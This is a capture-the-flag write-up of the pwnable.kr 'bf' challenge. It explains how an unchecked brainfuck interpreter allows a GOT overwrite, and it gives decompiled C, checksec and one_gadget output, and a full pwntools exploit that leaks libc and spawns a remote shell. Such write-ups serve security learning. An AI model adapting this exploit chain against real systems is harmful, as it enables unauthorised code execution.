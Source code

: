```yaml
---
layout: post
title: pwnable.kr - bf writeup
---
```

> **brain fuck - 150 pt**
> 
> I made a simple brain-fuck language emulation program written in C. 
> The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
> Find a bug and exploit it to get a shell. 
> 
> Download : http://pwnable.kr/bin/bf
> Download : http://pwnable.kr/bin/bf_libc.so
> 
> Running at : nc pwnable.kr 9001

First, download the binary and decompile it (I used Ghidra for this). We can see that it's a simple implementation of a brainfuck interpreter. However, there are no bounds checks, so we can read and write to basically wherever we want as long as the code for it isn't too long (as the `[]` instructions aren't available in this version).
```c

undefined4 main(void)

{
  size_t sVar1;
  int in_GS_OFFSET;
  uint local_418;
  char local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  p = tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(local_414,0,0x400);
  fgets(local_414,0x400,stdin);
  local_418 = 0;
  while( true ) {
    sVar1 = strlen(local_414);
    if (sVar1 <= local_418) break;
    do_brainfuck((int)local_414[local_418]);
    local_418 = local_418 + 1;
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
```c

void do_brainfuck(undefined param_1)

{
  char *pcVar1;
  int iVar2;
  
  pcVar1 = p;
  switch(param_1) {
  case 0x2b:
    *p = *p + 1;
    break;
  case 0x2c:
    iVar2 = getchar();
    *pcVar1 = (char)iVar2;
    break;
  case 0x2d:
    *p = *p + -1;
    break;
  case 0x2e:
    putchar((int)*p);
    break;
  case 0x3c:
    p = p + -1;
    break;
  case 0x3e:
    p = p + 1;
    break;
  case 0x5b:
    puts("[ and ] not supported.");
  }
  return;
}

```
We can see from `pwn checksec` that we have a writable GOT, and that PIE is off:
```bash
$ pwn checksec ./bf
[*] '/home/user/ctf/ctf-solutions/pwnable-kr/bf/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
So we can write to the GOT. Now we just have to figure out where, and what. I couldn't find a simple way to call `system` directly, so I searched for one-gadgets:
```bash
$ one_gadget bf_libc.so
0x3ac6c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL

0x3ac6e execve("/bin/sh", esp+0x2c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x2c] == NULL

0x3ac72 execve("/bin/sh", esp+0x30, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x30] == NULL

0x3ac79 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x5fbd5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x5fbd6 execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL
```
I ran through the main function in GDB and it turns out that the conditions are just right for the gadget at 0x5fbd5 to get a shell if I replaced the GOT address of puts with the gadget. So then we just have to get `_start` called from somewhere (because otherwise the `esi` constraint won't be satisfied if we directly call `main`). I chose `putchar` because we can choose when we want to call it through the brainfuck code and because `getchar` is already being used for writing data.

Finally, to get a libc leak, we can just simply read off the GOT with some brainfuck code. Do be careful to make sure `putchar` is resolved before trying to leak it, which we can do by printing out some random character before our exploit. Also, we have to use the `,` instruction instead of the `+`/`-` instructions here because we don't know what bytes we need to write before the libc leak.

Full exploit code: 
```python3
# leak libc base
# write one-gadget to puts got 
'''
0x5fbd5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL
'''
# jump back to __libc_start_main with another got overwrite 
from pwn import *
context.log_level = 'debug'
e = ELF('./bf')
libc = ELF('./bf_libc.so')
#r = process('./bf_patched')
r = remote('pwnable.kr', 9001)
#r = gdb.debug('./bf_patched', 'b main\nc')
r.recvuntil(b']\n')
r.sendline(b'.'+b'<'*(e.sym['tape']-e.got['putchar'])+b'.>'*4+b'<'*4+b',>'*4+b'<'*(e.got['putchar']+4-e.got['puts'])+b',>'*4+b'.')
# make sure putchar is resolved first 
r.recv(1)
leak = u32(r.recv(4))
print('putchar@got =', hex(leak))
libc.address = leak - libc.sym['putchar']
print('libc.address =', hex(libc.address))
# putchar -> __libc_start_main(main), puts -> one-gadget
r.send(p32(e.sym['_start']))
r.send(p32(libc.address + 0x5fbd5))
r.interactive()
```
And with that, we get a shell.

All of the files for this challenge are available at <https://github.com/programmeruser2/ctf-solutions/tree/main/pwnable-kr/bf>.


